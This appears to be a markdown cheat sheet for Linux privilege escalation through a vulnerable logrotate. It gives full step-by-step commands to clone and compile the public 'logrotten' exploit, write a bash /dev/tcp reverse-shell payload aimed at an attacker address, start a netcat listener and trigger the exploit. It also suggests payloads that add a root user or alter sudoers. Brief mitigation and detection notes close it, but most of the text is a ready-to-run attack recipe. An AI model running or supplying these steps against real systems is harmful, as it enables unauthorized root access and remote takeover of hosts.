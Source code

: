 ### Check logrotate version (if possible)

```sh
logrotate --version
```

### View logrotate configuration

```sh
cat /etc/logrotate.conf
ls /etc/logrotate.d/
```

### Find logrotate options (create or compress)

```sh
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

### Clone logrotten exploit

```sh
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
```

### Compile logrotten

```sh
gcc logrotten.c -o logrotten
```

### Create reverse shell payload

```sh
echo 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1' > payload
```

### Start netcat listener (attacker machine)

```sh
nc -nlvp <attacker_port>
```

### Run logrotten exploit

```sh
./logrotten -p ./payload /tmp/tmp.log
```

### Force logrotate to run (if needed, and if you have sudo)

```sh
sudo logrotate -f /etc/logrotate.conf # or a specific file in /etc/logrotate.d/
```

### Check logrotate status file (if you have sudo)

```sh
sudo cat /var/lib/logrotate.status
```



## **Key Concepts:**

- **Log Rotation:**
    - `logrotate` is a utility for managing log files.
    - It rotates, compresses, or removes old log files to prevent disk space exhaustion.
- **Configuration:**
    - `/etc/logrotate.conf`: Global configuration file.
    - `/etc/logrotate.d/`: Directory for service-specific configurations.
- **Vulnerability:**
    - Certain versions of `logrotate` (3.8.6, 3.11.0, 3.15.0, 3.18.0) are vulnerable.
    - Exploitable when `logrotate` runs as root and the attacker has write access to the log files.
- **Exploitation:**
    - `logrotten` exploit.
    - Payload injection.

### **Exploitation Steps (as described):**

1. **Check `logrotate` Configuration:**
    - `man logrotate` or `logrotate --help` to check version and options.
    - `cat /etc/logrotate.conf` and `ls /etc/logrotate.d/` to view the configurations.
    - `grep "create\|compress" /etc/logrotate.conf | grep -v "#"` to identify the options used.
2. **Download and Compile `logrotten`:**
    - `git clone https://github.com/whotwagner/logrotten.git`
    - `cd logrotten`
    - `gcc logrotten.c -o logrotten`
3. **Create Payload:**
    - `echo 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1' > payload`
4. **Start Netcat Listener:**
    - `nc -nlvp <attacker_port>`
5. **Run `logrotten`:**
    - `./logrotten -p ./payload /tmp/tmp.log`

### **Important Considerations and Enhancements:**

- **Vulnerability Details:**
    - The vulnerability stems from how `logrotate` handles file creation and permissions during rotation.
- **Exploit Reliability:**
    - The exploit's success depends on the specific `logrotate` configuration and system environment.
- **Alternative Payloads:**
    - Other payloads can be used, such as adding a root user or modifying `/etc/sudoers`.
- **Mitigation:**
    - Update `logrotate` to a patched version.
    - Restrict write access to log files.
    - use tools like SELinux or AppArmor to restrict logrotate.
- **Detection:**
    - Monitor log file changes.
    - Use intrusion detection systems.
    - Monitor for unexpected root shells.
- **Real World Examples:** Researching real world logrotate exploits will help solidify understanding of the attack vectors.
- **Logrotate status file:** The logrotate status file can be manipulated, but this is less common than the exploit described.
